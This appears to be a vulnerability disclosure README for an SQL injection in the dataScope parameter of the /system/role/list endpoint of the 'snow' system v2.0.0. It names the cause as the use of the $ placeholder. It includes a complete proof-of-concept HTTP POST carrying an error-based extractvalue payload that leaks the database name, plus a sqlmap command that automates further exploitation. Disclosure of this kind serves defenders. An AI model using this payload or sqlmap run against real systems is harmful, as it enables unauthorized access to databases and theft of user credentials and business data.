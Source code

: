target:https://gitee.com/qimingjin/snow                     version: v2.0.0  
The snow system has a vulnerability classified as severe. This may cause attackers to remotely inject operating system commands or code directly into the backend server. So as to control the backend system.Attackers can steal sensitive data, such as user credentials, personal information, or business data, by injecting malicious SQL queries. Or control the server through SQL injection .  
SQL injection exists in the dataScope parameter of the /system/role/list interface of the system.  
The cause of this vulnerability is the use of the $ placeholder symbol.  
![image](https://github.com/biantaibao/snow_SQL/assets/131763503/f03ed2f3-cfb3-43c0-aac3-43b476d201da)  
Find the front-end interface of the interface and click search in the role management.  
<img width="415" alt="image" src="https://github.com/biantaibao/snow_SQL/assets/131763503/874707cd-41a3-45e7-8f33-f30444ec5ddf">   
poc:  
POST /system/role/list HTTP/1.1  
Host: 127.0.0.1:9527  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0  
Accept: application/json, text/javascript, */*; q=0.01  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
X-Requested-With: XMLHttpRequest  
Content-Length: 150  
Origin: http://127.0.0.1:9527  
Connection: close  
Referer: http://127.0.0.1:9527/system/role  
Cookie: Hm_lvt_f8cddee34ca21f05373a9388cfdd798b=1704968094;  
Sec-Fetch-Dest: empty  
Sec-Fetch-Mode: cors  
Sec-Fetch-Site: same-origin  

roleName=11&roleKey=11&status=&params%5BbeginTime%5D=&params%5BendTime%5D=&params[dataScope]=and extractvalue(1,concat(0x7e,(select database()),0x7e))  

Successfully viewed database。  
![image](https://github.com/biantaibao/snow_SQL/assets/131763503/f3ecfa83-796b-43c3-abd3-4dbfdef48aba)  
![image](https://github.com/biantaibao/snow_SQL/assets/131763503/b186c4dc-cc72-45d1-9223-7bb7e38dace1)  
sqlmap command：python sqlmap.py -r sql.txt  
![image](https://github.com/biantaibao/snow_SQL/assets/131763503/384af2e6-084b-4218-a8ef-103382374912)






